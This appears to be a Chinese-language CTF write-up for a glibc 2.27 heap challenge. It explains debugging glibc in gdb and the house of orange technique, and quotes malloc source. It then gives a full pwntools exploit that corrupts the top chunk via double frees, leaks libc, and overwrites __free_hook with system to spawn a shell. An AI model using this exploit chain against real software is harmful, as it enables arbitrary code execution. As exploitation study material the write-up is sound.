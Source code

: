 # 知识点
- fastbin attack
- "fake" house of orange

# 收获
- gdb 源码级调试glibc
- house of orange 基本原理
## gdb 源码级调试
下载所需版本的glibc源码
```shell
sudo apt-get install libc6-dbg
sudo apt-get install glibc-source
cd /usr/src/glibc
sudo tar xvf glibc-x.xx.tar.xz
```
在gdb中使用:
```shell
dir /usr/src/glibc/glibc-x.xx/malloc
```
即可开始调试。
## house of orange 基本原理及在本题中的应用
house of orange简单来说就是利用溢出或者任意地址写的前置漏洞来修改topchunk的size字段，将其改小，从而可以通过若干次malloc来竭尽topchunk的空间，迫使ptmalloc将不足以满足用户需求的topchunk free到unsorted bin中。
这里之所以要改小topchunk的size而不是直接malloc一个超大的块，是因为如果申请的堆块大小超过了128k，ptmalloc就会调用mmap来申请内存，而不是brk，这样就不能影响到topchunk了。
修改topchunk的size有四个限制：
1.	伪造的 size 必须要对齐到内存页

2.	size 要大于 MIN_CHUNK_SIZE(0x10)

3.	size 要小于之后申请的 chunk size + MIN_CHUNK_SIZE(0x10)

4.	size 的 prev inuse 位必须为 1

这样的手法主要用于
- 不能调用free函数的情况（它能够触发free(topchunk)）；
- 不能通过常规方式泄露libc地址的情况（如本题）。

本题的关键难点在于如何泄露libc地址。由于题目限制，无法通过malloc和free将堆块放到unsorted bin这样的双向链表中。
通过上述的house of orange 似乎可以方便地泄露libc地址，但是实验发现topchunk在枯竭之后，似乎并没有被放到任何一个bin中，就被新的topchunk取代了....目前不知道是什么情况。
![image.png](0) ![image.png](1)
通过阅读源码和调试，了解了glibc-2.27在topchunk大小无法满足用户申请的内存大小后：
```c
use_top:
      /*
         If large enough, split off the chunk bordering the end of memory
         (held in av->top). Note that this is in accord with the best-fit
         search rule.  In effect, av->top is treated as larger (and thus
         less well fitting) than any other available chunk since it can
         be extended to be as large as necessary (up to system
         limitations).

         We require that av->top always exists (i.e., has size >=
         MINSIZE) after initialization, so if it would otherwise be
         exhausted by current request, it is replenished. (The main
         reason for ensuring it exists is that we may need MINSIZE space
         to put in fenceposts in sysmalloc.)
       */

      victim = av->top;
      size = chunksize (victim);

      if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
        {
          remainder_size = size - nb;
          remainder = chunk_at_offset (victim, nb);
          av->top = remainder;
          set_head (victim, nb | PREV_INUSE |
                    (av != &main_arena ? NON_MAIN_ARENA : 0));
          set_head (remainder, remainder_size | PREV_INUSE);

          check_malloced_chunk (av, victim, nb);
          void *p = chunk2mem (victim);
          alloc_perturb (p, bytes);
          return p;
        }

      /* When we are using atomic ops to free fast chunks we can get
         here for all block sizes.  */
      else if (atomic_load_relaxed (&av->have_fastchunks))
        {
          malloc_consolidate (av);
          /* restore original bin index */
          if (in_smallbin_range (nb))
            idx = smallbin_index (nb);
          else
            idx = largebin_index (nb);
        }

      /*
         Otherwise, relay to handle system-dependent cases
       */
      else
        {
          void *p = sysmalloc (nb, av);
          if (p != NULL)
            alloc_perturb (p, bytes);
          return p;
        }
    }
}

```
1. 先调用`malloc_consolidate`,将fastbin中的所有堆块取出并合并，放在unsorted bin中；
2. 注意在ptmalloc使用一个无限循环来申请堆块，因此在malloc_consolidate改变了fastbin和unsortedbin判断unsored bin 中的块是否符合用户需求，如不符合，将该块放入对应大小的bin中，（本题中是small bin，符合unsorted bin 的逻辑)
3. topchunk此时的大小还是不足，但是可能是由于smallbin里面有没被使用的内存块，且大小足够大，因此ptmalloc没有调用sysmalloc从系统申请新的topchunk，而是从smallbin里取出那块内存进行分割，剩余部分存放在unsorted bin，并且在last_remainder中也有地址记录。
4. 上一步中存放在unsorted bin中的块在本题中可以被利用来泄露libc地址。
# exp
```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = "debug"
io = process("./pwn")#,env={"LD_PRELOAD":"./libc.so.6"}
def add(idx,size,content):
    io.sendline("1")
    io.recvuntil("index\n")
    io.sendline(str(idx))
    io.recvuntil("size\n")
    io.sendline(str(size))
    io.recvuntil("something\n")
    io.sendline(content)
    io.recvuntil("gift :")
    heap_addr = io.recvline()
    return heap_addr
def remove(idx):
    io.sendline("2")
    io.recvuntil("index")
    io.sendline(str(idx))

heap_addr = int(add(0,0x50,"/bin/sh\x00"),16)
add(1, 0x48, 'aaa\x80bbb')

top_addr = heap_addr + 160

remove(0)
remove(0)
remove(0)
add(2, 0x50, p64(top_addr)*2)
add(3, 0x50, p64(top_addr)*2)
add(4, 0x50, p64(0xf1)*2)

for i in range(8):
    remove(1)
for i in range(8):
    remove(0)

add(5, 0x78, 'aaa\x80bbb')
gdb.attach(io)
add(6, 0x78, 'aaa\x80bbb')
add(7,0x48,'emmm')

libc_base = int(add(8,0x48,p64(top_addr)*2),16)- 4111520
#libc_base = int(add(8,0x48,"123456"),16)- 4111520 #???????? this add modify top chunk addr ??
libc = ELF("./mlibc")
system_addr = libc_base + libc.symbols["system"]
free_hook = libc_base + libc.symbols["__free_hook"]
print("[+]system addr:0x%x"%system_addr)
print("[+]free_hook addr:0x%x"%free_hook)

remove(0)
remove(0)
remove(0)

add(9,0x50,p64(free_hook)*2)
add(10,0x50,p64(free_hook)*2)
add(11,0x50,p64(system_addr))
add(12,0x30,"/bin/sh\x00")
remove(12)
io.interactive()

```

# 待解决
1. 为什么`libc_base = int(add(8,0x48,"12345"),16)- 4111520`会修改topchunk地址？
2. 为什么topchunk枯竭后没有被free到unsorted bin中，旧的topchunk被存到哪了？